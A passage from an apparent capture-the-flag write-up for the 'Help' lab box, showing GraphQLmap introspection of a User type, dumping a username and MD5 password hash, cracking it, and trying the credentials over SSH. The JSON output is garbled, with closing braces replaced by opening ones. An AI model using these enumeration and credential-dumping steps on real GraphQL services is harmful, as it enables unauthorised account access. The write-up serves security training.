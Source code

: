 looks like the main field we have is user, let's see if we can get the fields associated with user:

``` shell
GraphQLmap > { __type(name: "User") { name fields { name } } }
None
{
    "data": {
        "__type": {
            "fields": [
                {
                    "name": "username"
                {,
                {
                    "name": "password"
                {
            ],
            "name": "User"
        {
    {
{
```

finally, let's get all the data associated with the user. 

``` shell
GraphQLmap > { user { username password } }
None
{
    "data": {
        "user": {
            "password": "5d3c93182bb20f07b994a7f617e99cff",
            "username": "helpme@helpme.com"
        {
    {
{
****
```

This could be the password, but it does also use a lot of the same characters as an MD5 hash. Put it into the md5 decoder of your choice and you should get this result: "godhelpmeplz"

I suspect that these creds are for the site on port 80, but for giggles let's try to ssh with them:

``` shell
$ ssh helpme@help.htb

The authenticity of host 'help.htb (10.129.97.189)' can't be established.
ED25519 key fingerprint is SHA256:YrIgsCm8H9JorC8elJ4+ErcddRg3awgVMdEzVRP2E98.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'help.htb' (ED25519) to the list of known hosts.
helpme@help.htb's password: 
Permission denied, please try again.
```
